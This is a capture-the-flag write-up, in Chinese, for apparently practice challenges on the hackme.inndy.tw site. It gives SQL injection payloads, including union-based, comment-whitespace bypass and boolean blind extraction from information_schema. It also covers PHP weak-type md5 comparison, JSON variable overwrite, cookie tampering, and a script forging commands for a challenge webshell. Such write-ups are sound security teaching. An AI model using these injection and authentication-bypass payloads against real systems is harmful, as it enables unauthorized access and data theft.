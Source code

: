 `admin\'union select 1, the_f14g,3,1 from login_as_admin0.h1dden_f14g -- `

### login as admin 1

username: `admin`

password: `admin\'union/**/select/**/1,2,3,1#`

就是空白換成註解而以

### login as admin 1.2

Boolean Based MySQL Injection

可以透過下面這種方式來爆：

`name=admin&password=admin\'or/**/(select/**/ascii(mid(schema_name,1,1))>125/**/from/**/information_schema.schemata/**/limit/**/0,1)#`

Table: `0bdb54c98123f5526ccaed982d2006a9`

Column: `4a391a11cfa831ca740cf8d00782f3a6`


### login as admin 4

`curl --data 'name=admin&password=admin' https://hackme.inndy.tw/login4/`

### login as admin 6

這題就`json_decode`，然後變數覆蓋

payload:

`data={"users":{"admin":"kaibro"},"username":"admin","password":"kaibro"}`

### login as admin 7

php weak type比較

password: `240610708`

`md5(240610708) == 0e462097431906509019562988736854`

### dafuq-manager 1

把cookie的`show_hidden`改成yes即可


### webshell

把`eval`改成`echo`，可以簡單還原出原本的code

詳細可參考：http://blog.kaibro.tw/2018/01/16/AIS3-EOF-2017-%E5%88%9D%E8%B3%BD/

我的Payload script:

```php
<?php
$cmd = $_GET['c'];
$s =  hash('SHA512',$_SERVER['REMOTE_ADDR']) ^ $cmd;
$key = $_SERVER['HTTP_USER_AGENT'] . sha1("webshell.eof-ctf.ais3.ntu.st");
$sig = hash_hmac('SHA512', $cmd, $key);
echo "input sig: ".$sig;
echo "<br>";
echo "input cmd: ".urlencode($s);
```
